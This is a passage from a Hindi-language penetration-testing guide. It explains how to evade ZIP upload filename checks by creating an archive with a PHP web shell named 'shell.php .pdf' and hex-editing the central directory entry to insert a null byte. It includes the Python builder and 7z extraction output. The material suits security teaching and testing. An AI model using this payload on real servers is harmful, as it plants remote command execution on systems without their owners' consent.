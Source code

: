 [![b1](https://blog.silentsignal.eu/wp-content/uploads/2014/01/b1-300x106.png)](https://blog.silentsignal.eu/wp-content/uploads/2014/01/b1.png)

**संदर्भ**: [https://blog.silentsignal.eu/2014/01/31/file-upload-unzip/](https://blog.silentsignal.eu/2014/01/31/file-upload-unzip/)

## एक अलग नाम के साथ डीकंप्रेस करें

कभी-कभी ऐप्लिकेशन एक फ़ाइल के लोड होने को ब्लॉक कर देता है जबकि यह जांचता है कि ज़िप फ़ाइल के अंदर का एक्सटेंशन क्या है। यदि यह सतर्कता सतही है, अर्थात लोकल फ़ील्ड हैडर के अंदर की फ़ाइल के नाम की जांच करके, तो इसे ऐप्लिकेशन को धोखा देने के लिए दूसरे एक्सटेंशन के साथ बनाकर आप इसे चक्रव्यूह में डीकंप्रेस कर सकते हैं।

हम पिछले स्क्रिप्ट को फिर से उपयोग करके एक ज़िप फ़ाइल बना सकते हैं।
```python
import zipfile
from io import BytesIO

def create_zip():
f = BytesIO()
z = zipfile.ZipFile(f, 'w', zipfile.ZIP_DEFLATED)
z.writestr('shell.php .pdf', '<?php echo system($_REQUEST["cmd"]); ?>')
z.close()
zip = open('poc.zip','wb')
zip.write(f.getvalue())
zip.close()

create_zip()
```
ध्यान दें कि नाम में इसके अंदर एक स्थान है। अब आप एक हेक्स संपादक के साथ उत्पन्न किए गए ज़िप फ़ाइल को संपादित कर सकते हैं, और केंद्रीय निर्देशिका हैडर के अंदर स्थित नाम में इस वर्ग को एक शून्य बाइट `00` से बदल सकते हैं:
```bash
# before changing the name of the file inside the Central Directory header
00000080: 0000 0073 6865 6c6c 2e70 6870 202e 7064  ...shell.php .pd
# after changing the name of the file inside the Central Directory header
00000080: 0000 0073 6865 6c6c 2e70 6870 002e 7064  ...shell.php..pd
```
जब एप्लिकेशन ज़िप के अंदर फ़ाइल के फ़ाइलनेम की जांच करेगा, तो इस जांच के लिए उपयोग किया जाने वाला नाम स्थानीय फ़ाइल हैडर का नाम होगा, **लेकिन अगर ज़िप एन्क्रिप्टेड है तो नहीं** (pkzip स्पेसिफिकेशन देखें)। जब 7z या unzip दो नामों के बीच अंतर देखेंगे, तो फ़ाइल को संग्रहीत करने के लिए उपयोग किया जाने वाला नाम सेंट्रल डायरेक्टरी हेडर का नाम होगा। नल बाइट के धन्यवाद से, नाम `shell.php` होगा।

जब डीकंप्रेस किया जाएगा:
```bash
7z e poc.zip
ls
shell.php
```
**संदर्भ**:

[https://users.cs.jmu.edu/buchhofp/forensics/formats/pkzip.html](https://users.cs.jmu.edu/buchhofp/forensics/formats/pkzip.html)
